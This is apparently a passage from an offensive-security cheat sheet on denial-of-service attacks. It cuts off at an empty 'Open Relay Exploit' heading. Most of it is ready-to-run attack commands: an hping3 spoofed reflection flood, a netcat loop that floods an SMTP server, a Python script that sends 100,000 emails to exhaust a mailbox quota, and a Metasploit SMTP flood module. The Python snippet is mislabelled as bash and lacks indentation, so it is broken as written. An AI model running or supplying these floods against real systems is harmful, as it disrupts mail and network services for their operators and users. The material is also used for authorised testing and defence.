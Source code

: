 #### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### SMTP Email Flood

*   **Tool:** \[\[NetCat]]

    ```bash
    while true; do echo -e "EHLO example.com\nMAIL FROM:<attacker@example.com>\nRCPT TO:<victim@example.com>\nDATA\nFlood\n.\nQUIT" | nc <target_ip> 25; done
    ```
* **Description:** Floods the SMTP server with emails, overwhelming its processing capacity and potentially leading to a denial of service.

#### Exhausting Email Quota

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    for _ in range(100000):
    msg = MIMEText("Flood email")
    msg['Subject'] = "Flood"
    msg['From'] = "attacker@example.com"
    msg['To'] = "victim@example.com"

    s = smtplib.SMTP('<target_ip>')
    s.sendmail(msg['From'], [msg['To']], msg.as_string())
    s.quit()
    ```
* **Description:** Send massive amounts of email to a target user to exhaust their storage quota or overwhelm the mail server.

#### Resource Exhaustion Attack

*   **Tool:** \[\[Metasploit]]

    ```bash
    use auxiliary/dos/smtp/smtp_flood
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploits the server’s resources by sending a high volume of emails with large attachments, leading to disk or memory exhaustion.

### Exploits

#### Open Relay Exploit
